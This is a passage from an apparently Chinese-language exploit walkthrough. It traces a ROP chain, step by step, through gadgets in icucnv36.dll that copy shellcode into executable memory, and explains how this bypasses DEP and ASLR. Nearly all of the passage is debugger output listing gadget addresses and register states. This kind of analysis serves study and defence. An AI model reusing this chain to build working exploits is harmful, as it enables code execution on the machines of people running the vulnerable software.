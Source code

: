 最后调用函数 `memcpy` 将真正的 shellcode 复制到 `MapViewOfFile` 返回的地址处。这是一段可读可写可执行的内存，从而绕过 DEP。另外由于所使用的 gadgets 都来自 `icucnv36.dll` 模块，该模块不受 ASLR 的影响，所以同时也相当于绕过了 ASLR。

```text
4A8063A5    59              pop ecx         ; esp = 0C0C0CC8, ecx = 4A8A0004
4A8063A6    C3              retn            ; esp = 0C0C0CCC, eip = 4A802196
```

```text
4A802196    8901            mov dword ptr ds:[ecx],eax
4A802198    C3              retn            ; esp = 0C0C0CD0, eip = 4A8063A5
```

```text
4A8063A5    59              pop ecx         ; esp = 0C0C0CD4, ecx = 4A801064
4A8063A6    C3              retn            ; esp = 0C0C0CD8, eip = 4A842DB2
```

```text
4A842DB2    97              xchg eax,edi
4A842DB3    C3              retn            ; esp = 0C0C0CDC, eip = 4A802AB1
```

```text
4A802AB1    5B              pop ebx         ; esp = 0C0C0CE0, ebx = 00000030
4A802AB2    C3              retn            ; esp = 0C0C0CE4, eip = 4A80A8A6
```

```text
4A80A8A6    213C5C          and dword ptr ss:[esp+ebx*2],edi
...
4A80A8C8    32C0            xor al,al
4A80A8CA    C3              retn            ; esp = 0C0C0CE8, eip = 4A801F90
```

```text
4A801F90    58              pop eax         ; esp = 0C0C0CEC, eax = 4A8A0004
4A801F91    C3              retn            ; esp = 0C0C0CF0, eip = 4A80A7D8
```

```text
4A80A7D8    8B00            mov eax,dword ptr ds:[eax]
4A80A7DA    C3              retn            ; esp = 0C0C0CF4, eip = 4A8063A5
```

```text
4A8063A5    59              pop ecx         ; esp = 0C0C0CF8, ecx = 4A801064
4A8063A6    C3              retn            ; esp = 0C0C0CFC, eip = 4A842DB2
```

```text
4A842DB2    97              xchg eax,edi
4A842DB3    C3              retn            ; esp = 0C0C0D00, eip = 4A802AB1
```

```text
4A802AB1    5B              pop ebx         ; esp = 0C0C0D04, ebx = 00000020
4A802AB2    C3              retn            ; esp = 0C0C0D08, eip = 4A80A8A6
```

```text
4A80A8A6    213C5C          and dword ptr ss:[esp+ebx*2],edi
...
4A80A8C8    32C0            xor al,al
4A80A8CA    C3              retn            ; esp = 0C0C0D0C, eip = 4A8063A5
```
